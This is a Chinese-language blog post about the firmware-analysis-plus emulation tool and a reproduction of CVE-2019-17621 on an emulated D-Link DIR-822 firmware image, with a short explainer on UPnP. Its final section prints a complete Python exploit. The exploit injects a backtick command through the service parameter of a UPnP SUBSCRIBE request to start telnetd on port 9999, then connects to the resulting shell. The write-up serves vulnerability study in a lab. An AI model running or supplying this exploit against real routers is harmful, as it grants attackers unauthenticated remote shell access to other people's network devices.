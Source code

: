 ```yaml
---
layout: post
tags: [iot]
title: "Firmware analysis plus"
date: 2023-5-20
author: wsxk
comments: true
---
```


- [前言](#前言)
- [install](#install)
- [CVE-2019-17621漏洞复现](#cve-2019-17621漏洞复现)
  - [1.uPnP协议](#1upnp协议)
  - [2. exp](#2-exp)


## 前言<br>
`firmware-analysis-plus` 来自三个上游工具`binwalk、firmadyne、firmware-analysis-toolkit`，实不相瞒，这叁工具我都用过，有一定的功效性，但是不能其实功能不是很稳定，存在缺陷。<br>
偶然发现了高级东西`firmware-analysis-plus`在前三个工具的基础上更新了新内容，我还是很想体验一下用法的。<br>

## install<br>
在`ubuntu20`上进行安装，十分友好<br>
[https://github.com/wsxk/firmware-analysis-plus](https://github.com/wsxk/firmware-analysis-plus)<br>
安装很友好！<br>

## CVE-2019-17621漏洞复现<br>
[CVE网址](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17621)<br>

### 1.uPnP协议<br>
uPnP，全称Universal Plug and Play，中文可以翻译为“通用即插即用”。这是一种网络协议，允许网络设备之间无缝的发现和交互。这种协议被广泛应用于家庭和小型企业网络中。<br>
UPnP的目标是实现设备的动态连接，设备可以自动化地加入网络、获取IP地址、公布其服务供其他设备或控制点使用，以及接收并处理来自其他设备或控制点的服务请求。它的设计理念是“即插即用”，即设备能够在插入网络时立即可用，不需要进行复杂的设备设置或网络配置。<br>
UPnP支持各种各样的设备，包括但不限于计算机、打印机、摄像头、路由器、移动设备、智能电视等。通过使用UPnP，这些设备可以自动发现网络上的其他设备并与之交互。例如，一部UPnP兼容的智能电视可以自动发现网络上的媒体服务器，并从媒体服务器上播放视频或音频。<br>
然而，虽然UPnP提供了很大的便利性，但它也有一些安全问题。因为UPnP假设网络中的所有设备都是可信的，所以它没有内置的安全机制。这意味着恶意设备可以利用UPnP来执行不安全的操作，例如打开路由器的端口，使得外部攻击者可以访问网络内部的设备。因此，在使用UPnP时，我们需要对网络安全保持警惕。<br>

### 2. exp<br>
使用`python3 fap.py -q qemu-builds/2.5.0/  testcases/DIR822A1_FW103WWb03.bin` 复现环境<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2023-4-27-vscode_cmake/20230609230012.png)
使用如下脚本进行复现<br>
```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send((request).encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = '192.168.0.1'
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2023-4-27-vscode_cmake/20230609230209.png)
可以发现成功进入后台。<br>